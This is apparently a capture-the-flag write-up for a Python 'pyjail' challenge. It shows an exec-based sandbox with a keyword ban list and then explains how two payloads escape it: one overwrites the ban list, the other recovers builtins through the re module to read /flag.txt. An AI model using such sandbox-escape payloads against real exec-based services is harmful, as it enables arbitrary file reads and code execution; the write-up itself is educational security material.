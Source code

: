 # pyjail

#### Description:
```
Escape me plz.

EU instance: 207.180.200.166 1024

US instance: 45.134.3.200 1024
```
#### Files:
jailbreak.py
```python
#!/usr/bin/env python3

import re
from sys import modules, version

banned = "import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data"
search_func = lambda word: re.compile(r"\b({0})\b".format(word), flags=re.IGNORECASE).search

modules.clear()
del modules

def main():
    print(f"{version}\n")
    print("What would you like to say?")
    for _ in range(2):
        text = input('>>> ').lower()
        check = search_func(banned)(''.join(text.split("__")))
        if check:
            print(f"Nope, we ain't letting you use {check.group(0)}!")
            break
        if re.match("^(_?[A-Za-z0-9])*[A-Za-z](_?[A-Za-z0-9])*$", text):
            print("You aren't getting through that easily, come on.")
            break
        else:
            exec(text, {'globals': globals(), '__builtins__': {}}, {'print':print})

if __name__ == "__main__":
    main()
```

#### Auther:
pop_eax & Tango
#### Points and solvers:
At the end of the CTF, 95 teams solved this challenge and it was worth 437 points.

## Solution:
We first read the code carfully, notice we have two payloads to enter the code and we assume that we need to read a file in order to win.   
There are two checks that payload needs to pass, first check makes sure the payload does not contain the words `import`, `chr`, `os` etc. and the second check is quite basic and we can ignore it for now. 
Let's create the first payload with intention to remove the bounderies for the second payload, unlike in C when running an `exec` command we can interact with the variables of the progam, 
this means we can try to overwrite the `banned` or the `search_func` variables. Global python variables are saved in the `globals` dictionary, when printing it (payload = `print(globals)`) we recive:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data', 'search_func': ...}
```

Lets indeed overwrite `banned`: payload = `globals['banned'] = 'string_we_are_never_going_to_use'`, when printing again we get:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'string_we_are_never_going_to_use', 'search_func': ...}
```

Great! The second payload [can be whatever we want](https://i.imgur.com/pEq5Ohz.jpg) it to be.   
Now for the second payload. We cannot use `open` since the `open` function is part of the python `__builtins__`, a function that is built in in the laguage, and when running `exec` with `'__builtins__': {}` all of our built in function s were removed.
So what next? After a quick google search "How to restore builtins" you will arrive to [this stackoverflow answer](https://stackoverflow.com/a/25824045/7501501) that says that each python module contains builtin for itself! 
In the globals we see we can access the `re module` lets try to use the open function from this module's builtins: second payload = `print(globals['re'].__builtins__['open'])`

```python
<built-in function open>
```

Once again, success, now we can use any builtin function we want, even importing other modules: `globals['re'].__builtins__['__import__']('os')` after messing around with `os` to find the flag in the file system we find that the path is `/flag.txt`, let's print it:

payload 1: `globals['banned'] = 'string_we_are_never_going_to_use'`
payload 2: `__builtins__ = globals['re'].__builtins__; print(__builtins__['open']('/flag.txt', 'rb').read());`

### Flag:
`flag{}`

(The server shut down after the event so I do not remember the flag, believe me it works lol)
